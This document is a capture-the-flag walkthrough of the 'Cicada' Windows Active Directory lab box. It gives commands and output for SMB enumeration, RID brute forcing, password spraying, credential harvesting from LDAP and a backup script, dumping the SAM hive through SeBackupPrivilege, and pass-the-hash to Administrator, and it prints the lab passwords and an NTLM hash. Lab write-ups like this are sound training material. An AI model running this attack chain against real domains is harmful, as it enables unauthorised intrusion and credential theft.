


# Cicada

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-windows: Windows</span>
<span class="wu-badge wu-diff wu-diff--easy">Easy</span>
<span class="wu-tags">
<span class="wu-tag">SMB enum</span>
<span class="wu-tag">RID brute force</span>
<span class="wu-tag">Password spraying</span>
<span class="wu-tag">SeBackupPrivilege</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Cicada is a beginner Active Directory box that rewards patient enumeration. A readable SMB share leaks a default password, RID brute forcing gives a user list to spray it against, and LDAP and a backup script hand over more credentials as you pivot from account to account. The finish is a `SeBackupPrivilege` abuse to dump the SAM and pass the Administrator hash.

## Attack path

1. Anonymously enumerate SMB, recover a default password from an HR share, and RID-brute a user list.
2. Spray the password to land on `michael.wrightson`, pull more credentials from LDAP and a DEV-share backup script, and pivot through `david.orelious` to `emily.oscars`.
3. Abuse `SeBackupPrivilege` to dump SAM and SYSTEM, extract the Administrator hash, and pass it.

**Tools:** NetExec, impacket-lookupsid, smbclient, ldapsearch, evil-winrm, pypykatz.

## Enumeration

Set the target and scan:

```bash
IP=10.10.11.35

ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')

# TCP port scan
sudo nmap -p$ports -sC -sV $IP -oG scan_tcp

# UDP port scan
sudo nmap -sS -sU -p- $IP
```

### Nmap results

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-09 02:13:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
64283/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows
```

A domain controller for `cicada.htb`, with SMB, Kerberos, and LDAP exposed. Add it to `/etc/hosts`:

```bash
echo "10.10.11.35 cicada.htb CICADA-DC.cicada.htb" | sudo tee -a /etc/hosts
```

## Foothold

### SMB enumeration

Check whether SMB allows anonymous access and list the shares:

```bash
netexec smb cicada.htb -u hi -p "" --shares
```

<figure class="wu-evidence" markdown>

<figcaption>Anonymous SMB enumeration identifies the readable <code>HR</code> share—the first meaningful branch in the attack path.</figcaption>
</figure>

An `HR` share is readable. Pull its contents with smbclient:

```bash
smbclient //cicada.htb/HR -N
# smb> mget *
```

The file inside contains a default password:

??? success "Default password from the HR share"
    `Cicada$M6Corpb*@Lp#nZp!8`

We have a password but no user. RID-brute the domain for account names:

```bash
netexec smb cicada.htb -u hi -p "" --rid-brute
# or
impacket-lookupsid anonymous@cicada.htb
```

That returns the real user accounts (`john.smoulder`, `sarah.dantelia`, `michael.wrightson`, `david.orelious`, `emily.oscars`). Save the likely candidates to a file:

```text title="users.txt"
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

Spray the default password across them:

```bash
netexec smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

<figure class="wu-evidence" markdown>

<figcaption>The controlled spray produces one valid account, <code>michael.wrightson</code>, while the other candidates fail.</figcaption>
</figure>

That is a hit for `michael.wrightson`, though he only has read access to shares.

### LDAP

Michael's credentials also authenticate to LDAP. Enumerate accounts and grep for anything password-shaped:

```bash
netexec ldap cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'
ldapsearch -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b 'dc=cicada,dc=htb' | grep -i pass
```

A description field leaks another password:

??? success "Password from LDAP description field"
    `aRt$Lp#7t*VQ!3`

Spray it to find the owner (`david.orelious`), who has read access to a `DEV` share. Pull it and read the backup script inside:

```bash
netexec smb cicada.htb -u users.txt -p 'aRt$Lp#7t*VQ!3' --continue-on-success
smbclient //cicada.htb/DEV -U david.orelious
# smb> mget *
```

The backup script hardcodes another set of credentials:

??? success "Credentials in the backup script"
    `emily.oscars:Q!3@Lp#M6b*7t*Vt`

Emily can log in over WinRM for the user flag:

```bash
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

## Privilege escalation

Check Emily's privileges:

```powershell
whoami /priv
```

```
Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

`SeBackupPrivilege` lets us read protected files, including the registry hives. Create a temp directory, then save the SAM and SYSTEM hives:

```powershell
mkdir C:\Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Since we are on evil-winrm, download both back to Kali:

```powershell
download sam
download system
```

Extract the local hashes from the hives with pypykatz:

```bash
pypykatz registry --sam sam system
```

??? success "Administrator NTLM hash"
    ```
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
    ```

Pass the Administrator hash over WinRM to get the root flag:

```bash
evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```
